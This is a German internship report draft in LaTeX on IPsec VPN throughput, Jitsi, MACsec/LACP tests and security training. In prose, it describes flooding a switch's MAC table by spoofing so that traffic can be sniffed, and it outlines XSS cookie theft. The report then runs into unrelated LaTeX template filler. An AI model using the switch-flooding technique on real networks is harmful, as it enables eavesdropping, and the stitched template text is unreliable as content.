Es sollten verschiedene Aspekte bei einer VPN-Tunnel Verbindung getestet werden. Dazu wurde einmal ein physischer Aufbau mit 4331 Routern angelegt und zudem noch ein Simulationsmodell in GNS3 mit Routern der 7200 Serie. Bei dem physischen Aufbau wurden die Router mit IKev2 und isakmp protokoll eingerichtet. Mit dem Ziel die Performance zu analysieren, sollten verschiedene Paketgrößen und der damit erreichbare Durchsatz getestet werden. Die im Router ermittelte MTU war 1438 Byteswas der 1500 Ethernet MTU entspricht minus 61 Bytes wegen esp-AES-(256
or 192 or 128).Die Abweichung von einem Byte 1500-61(62) =1438 ist vielleicht eine rundungssicherheit. Mittels eines Pingtests, der das Flag gesetzt hatte, dass er nicht fragmentiert werden soll, ist ebenfalls ein MTU Wert von 1438 Bytes herausgekommen. Dass Performancemesstool \qq{Iperf} gab eine MSS von 1386 Bytes bei einer MTU von 1426Bytes an. Der Unterschied zwischen MSS und MTU wäre dabei durch die TCP und IP header zu erklären, die jeweil 20 Bytess groß sind. Die MTU ist dabei durch den IPSec Overhead um 73, bzw. wieder 1 byte Abweichung
von 1500 MTU verschieden, weil esp-AES-(256 or 192 or 128) esp-SHA-hmac
genutzt wurde. In einem Diagramm habe ich den Anteil der Payload zur Gesamtpaketgröße bestehend aus Payload und Overhead für die verschiedenen MSS Größen aufgetragen. Dieser Wert stellt die theoretisch ausgerechnete Prtokolleffizienz dar. Die Kurve zeichnet eine niedrige Effizienz bei geringen MSS Werten ab und nähert sich dem optimalen Wert bei der zu MTU entsprechenden MSS ihrem Maximal Wert asymptotisch an. Die gemessenen Übertragungsgeschwindigkeiten im Verhältnis zur maximal möglichen Bandbreite stellt die zweite Datenreihe dar und zeichnet eine identisch verlaufende Kurve, die stets minimal unter dem theoretischen Wert liegt. Dies ist das erwartete Ergebniss, da iperf nur die Transport Level Daten misst und diese durch Protokolloverheads geringer als die physische bandbreite der Leitung ist.
In der netzwerksimulation wurde eine IPSec Verbindung über ISakmp zwischen zwei Netzen aufgebaut. Um die Netzwerkfunktionalität zu testen wurde innerhalb von Gns3 ein Ping über die Consolen der emulierten virtuellen PCs genutzt. Damit ließ sich der erfolgreiche Aufbau des tunnels zeigen. Die Funktion von GNS3 bestimmte Leitungen mit Wireshark abzuhören erweist sich ebenfalls als hilfreich, um die Verschlüsselung und damit das Sicherheitskonzept zu belegen. Die auf der Leitung aufgenommenen Datenpakete zwischen den routern, die den tunnel aufbau zeigen den Ablauf des ISAKMP Protokolls. Es sind in Wireshark die Aushandlung, die Erstellung der Verbindung und der Cryptoschlüsselausstausch sichtbar. Die folgenden Pakete werden als ESP Verschlüsselte Pakete angezeigt, womit die Konfiguration als erfolgreich angesehen werden kann.



Für die Einrichtung eines Jitsi Servers wurde mir eine Testlab Umgebung bereitgestellt auf der ich über Proxmox eine VM eingerichtet habe und darauf Jitsi installiert habe. Damit sollte eine hausinterne Lösung für Videokonferenzen geschaffen werden. Es wurde eine große Testkonferenz mit 14 Teilnehmern durchgeführt, um die Performance des Servers und der Clients zu testen. Ein Xeon x3363 mit 4Core/4Threads hatte dabei bis zu 50\% CPU AUslastung. Das größere Problem an Jitsi war aber die Client Performance, wobei mit der eigenen Lösung die  gleichen bzw. minimal  bessere Werte in der CPU-Auslastung der Teilnehmer erzielt wurden. Sie wurde mit vier frisch aufgesetzten leistungsschwachen Laptops getestet, um möglichst nah an reale Bedingungen im Betrieb zu kommen. Zwei der Laptops waren identisch nur mit unterschiedlichen Betreibssystemen. Einmal Linux und beim anderen Windows. Auf Linux wurde eine deutlich schlechtere Performance erreicht mit sehr hohen CPU Auslastungen. Dies ist durch die fehlende Hardwarebeschleunigung des Videodekoders zu erklären. Windows ist daher besser geeignet, allerdings trotzdem noch mit Auslastungen um die 50\% eigentlich nicht akzeptabel.

MACSec ist Verschlüsselung auf LAyer 2 Ethernet Ebene und soll dabei die volle Übertragungsgeschwindigkeit der Leitung erreichen. In einem realen Testaufbau wurden die Switche so kofiguriert, dass MACSec zwischen zwei Uplink Ports aktiviert ist. Hierbei konnte mittels tcpdump und wireshark die verschlüsselung der Pakete bewiesen werden. Da kein Hub vorhanden war, wurde ein Switch zwischen die Verbindung geschaltet. Bei diesem Switch wurde mittels macspoofing die mac adressen tabelle zum Überlaufen gebracht, sodass der Switch auf allen Ports broadcassted und eine linux box mit usb netzwerkkabel mithören kann. Die MACSec Pakete werden erfolgreich auf dem zwischengeschaltetem Switch an Ports 12 der 9300-24ux-a Switche mitgeschnitten und auf Port 3 des kleinen Switches per USB Netzwerkkarte an eine Linux Box übertragen. Wireshark zeigt dabei die macsec verschlüsselte Frames an.
Weiterhin sollte die LACP Bündelung mit eingeschaltetem MACSec getestet werden. Es sollte herausgefunden werden, ob die Ausfallsicherung und Bandbreitenvergrößerung mit der neuen Funktion wie erwartet funktionieren. Die dem Kunden angebotenen Leistungen sollten erhalten bleiben und um die Verschlüsselung auf Line Rate erweitert werden. Die Ausfallsicherheit der LACP Bündelung funktioniert. Der Switch schwenkt auf die andere Leitung um, wenn eine der beiden Kabel im testaufbau getrennt wird. Die Datengeschwindigkeit bleibt für singel tcp stream gleich und verdoppelt sich nicht. Das LACP Load Sharing wurde mit der Einstellung src mac adresse standard überprüft. Bei unterschiedlichen verbindungen kann die Bandbreitenvergößerung bestätigt werden und sie verhält sich so, wie es zu erwarten war. Der Aufbau bestand aus zwei 100MBit Leitungen und der genannten Loadbalancing Methode. Ein Laptop ist ein iperf3 Server mit drei weiteren USB 3.0 Netzwerkkarten, deren IP statisch festgelegt werden. Vier weitere Laptops sind die iperf3 Clients mit passender IP für eines der vier Netze. Alle  Laptops sind in verschiedenen IP-Netzen. Vorher wurden  alle am gleichen Switch angeschlossen, um eine datenrate von 1Gbit (~940Mbit)untereindander zu bestätigen. Danach wurden Sender und Empfänger auf die gegenüberliegenden Seiten der LACP Brücke/Verbindung gesteckt. Bei zwei Verbindungen erreicht macsec ~93Mbit/s jeweils. Mit der dritten Verbindung verteilt es sich zu 100 + 2*50 Mbit/s. Ab der vierten Verbindung verteitl das zugrundeliegende Hashverfahren die Übertragungen auf 2*50Mbit/s + 2*50Mbit/s auf.

-MACSec bei direkter Kupferkabelverbindung gleich schnell, bei LACP 2mbits langsamer, liegt eventuell an überlastetetm lacp link, müsste mit 10gbits nochmal getestet werden. Liegt vllt. am Protokoll Overhead.

Zu Beginn des Praktikums habe ich viele verschiedene themen angefangen, um einen Überblick über die Tätigkeiten im Unternehmen zu bekommen. Dazu gehörten das Vertrautmachen und Rumspielen mit den Einstellungen einer CISCo ASA 5506-x über die Commandozeile und dann über eine JAVA Oberfläche. Dabei konnte ich zugucken wie die Firewall Einstellungen der ASA mit echten Kundenanforderungen bestückt wurden. Weiterhin hab ich das Information Security Management System kennengelernt, welches für die ISO Zertifizierung von zentraler Bedeutung ist. Diese Konzepte werden regelmäßig mit einem externen Auditor überprüft und wen dort keine Beanstandungen auftreten, wird die Zertifizierung verlängert. Die Konzepte fokussieren sich hauptsächlich auf den Kernbetrieb des Unternehmens, nämlich das Rechenzentrum. Vom Kunden wurde ein beleg für den verantwortungsvollen Umgang mit Datensicherheit erwartet, wodurch diese Zertfizierung nach wirtschaftlichen Abwägungen für sinnvoll erachtet wurde. Es wird viel Dokumentation erwartet, in der der Prüfer erkennen kann, das die Sicherheitskonzepte für verschiedene Szenarien im Risiko korrekt abgewogen und gemanagt werden. 
In diesem Zusammenhang durfte ich einen intern vertraulichen Security Pentest von \qq{Compass Security} auf die Server der \qq{Deutschen Kreditbank AG} von 2018 ansehen. Fürs Webserver Pentesting wurde mir dann eine Testumgebung zur verfügung gestellt in der ich zunächst selbst Dinge ausprobieren durfte. Mit einer \qq{Damn Vulnerable Web Application} (DVWA) konnte ich Cross Site Scripting (XSS) ausprobieren und nachvollziehen.
Ein weiteres potentielles Angriffszenario konnte ich erleben, als eine SD-Karte auf dem Parkplatz des Firmengeländes gefunden wurde. Damit könnte versucht werden Schadsoftware ins Unternehmen einzuschleusen, wenn diese unbedacht an Firmenrechner angeschlossen wird. Deswegen wurde des sichere Umgang mit Datenentfernung demonstriert. Es wurde ein isoliertes Gerät, ein herumliegender Laptop ohne Netzwerkverbindung und ohne WLAN Zugangsdaten verwendet. Die Festplatte wurde ausgebaut und ein Knoppix Live System über USB gestartet. Die Partitionen der sd Karte und des Live usb's wurden formatiert und mit Nullen überschrieben.

Bei Cross-Site- Scripting Angriffen wird böswilliger Java Script Code über z.B. die URL in eine ansonsten valide Website injiziert. Dadurch kann ein Angreifer Cookies stehlen und darüber die Session des Benutzers übernehmen. Derartige Injektionsprobleme treten immer dann auf, wenn Eingaben des Nutzers nicht überprüft werden und es dadurch ermöglichen den Programmcode zu manipulieren. Dieser Angriff ist zu verhindern, indem bestimmte Zeichen kodiert werden, sodass sie nicht mehr in der entsprechenden Programmumgebung wirken.

IPSec VPN ermöglicht eine gesicherte Verbindung über einen Tunnel zwischen Sender und Empfänger und ermöglicht damit die remote Anbindung von Nutzern an Firmeninterne Netze. Aber es gibt Performanceprobleme unter anderem dann, wenn ein Protokoll wenig Nutzdaten im Vergleich zum großen Verschlüsselungsoverhead überträgt. Deswegen kann die Nutzung von MACSec, welches Layer 2 Verschlüsselung von Übertragungen bis zum maximalen Datendurchsatz der Leitung verspricht, unter bestimmten Voraussetzungen sinnvoll sein.



\lipsum[1-3]\todo{Refine me}

The remainder of the paper starts with a presentation of related work (\cref{sec:relatedwork}).
It is followed by a presentation of hints on \LaTeX{} (\cref{sec:hints}).
Finally, a conclusion is drawn and outlook on future work is made (\cref{sec:outlook}).

\section{Related Work}
\label{sec:relatedwork}

Winery~\cite{Winery} is a graphical \commentontext{modeling}{modeling with one \qq{l}, because of AE} tool.
The whole idea of TOSCA is explained by \citet{Binz2009}.

\section{LaTeX Hints}
\label{sec:hints}

\begin{figure}
  \centering
  \includegraphics[width=.8\textwidth]{example-image-golden}
  \caption{Simple Figure. \cite[based on][]{mwe}}
  \label{fig:simple}
\end{figure}

\begin{table}
  \caption{Simple Table}
  \label{tab:simple}
  \centering
  \begin{tabular}{ll}
    \toprule
    Heading1 & Heading2 \\
    \midrule
    One      & Two      \\
    Thee     & Four     \\
    \bottomrule
  \end{tabular}
\end{table}

\begin{lstlisting}[
  % one can adjust spacing here if required
  % aboveskip=2.5\baselineskip,
  % belowskip=-.8\baselineskip,
  caption={Example Java Listing},
  label=L1,
  language=Java,
  float]
public class Hello {
    public static void main (String[] args) {
        System.out.println("Hello World!");
    }
}
\end{lstlisting}

\begin{lstlisting}[
  % one can adjust spacing here if required
  % aboveskip=2.5\baselineskip,
  % belowskip=-.8\baselineskip,
  caption={Example XML Listing},
  label=L2,
  language=XML,
  float]
<example attr="demo">
  text content
</example>
\end{lstlisting}

\Cref{L1,L2} show listings typeset using the \texttt{lstlisting} environment.

cref Demonstration: Cref at beginning of sentence, cref in all other cases.

\Cref{fig:simple} shows a simple fact, although \cref{fig:simple} could also show something else.

\Cref{tab:simple} shows a simple fact, although \cref{tab:simple} could also show something else.

\Cref{sec:intro} shows a simple fact, although \cref{sec:intro} could also show something else.

Brackets work as designed:
<test>
One can also input backquotes in verbatim text: \verb|`test`|.

The symbol for powerset is now correct: $\powerset$ and not a Weierstrass p ($\wp$).

\begin{inparaenum}
  \item All these items...
  \item ...appear in one line
  \item This is enabled by the paralist package.
\end{inparaenum}

Please use the \qq{qq command} or the \enquote{enquote command} to quote something.
``something in quotes'' using plain tex syntax also works.

You can now write words containing hyphens which are hyphenated (application"=specific) at other places.
This is enabled by an additional configuration of the babel package.
In case you write \qq{application-specific}, then the word will only be hyphenated at the dash.
You can also write applica\allowbreak{}tion-specific, but this is much more effort.

The words \qq{workflow} and \qq{dwarflike} can be copied from the PDF and pasted to a text file.

Numbers can written plain text (such as 100), by using the siunitx package like that:
\SI{100}{\km\per\hour},
or by using plain \LaTeX{} (and math mode):
$100 \frac{\mathit{km}}{h}$.

\section{Conclusion and Outlook}
\label{sec:outlook}
\lipsum[1-2]

\subsubsection*{Acknowledgments}
\ldots

In the bibliography, use \texttt{\textbackslash textsuperscript} for \qq{st}, \qq{nd}, \ldots:
E.g., \qq{The 2\textsuperscript{nd} conference on examples}.
When you use \href{https://www.jabref.org}{JabRef}, you can use the clean up command to achieve that.
See \url{https://help.jabref.org/en/CleanupEntries} for an overview of the cleanup functionality.

\renewcommand{\bibsection}{\section*{References}} % requried for natbib to have "References" printed and as section*, not chapter*
% Use natbib compatbile splncsnat style.
% It does provide all features of splncs03, but is developed in a clean way.
% Source: http://phaseportrait.blogspot.de/2011/02/natbib-compatible-bibtex-style-bst-file.html
\bibliographystyle{splncsnat}
\begingroup
  \ifluatex
    %try to activate if bibliography looks ugly
    %\sloppy
  \else
    \microtypecontext{expansion=sloppy}
  \fi
  \small % ensure correct font size for the bibliography
  \bibliography{paper}
\endgroup

% Enfore empty line after bibliography
\ \\
%
All links were last followed on October 5, 2017.
\end{document}
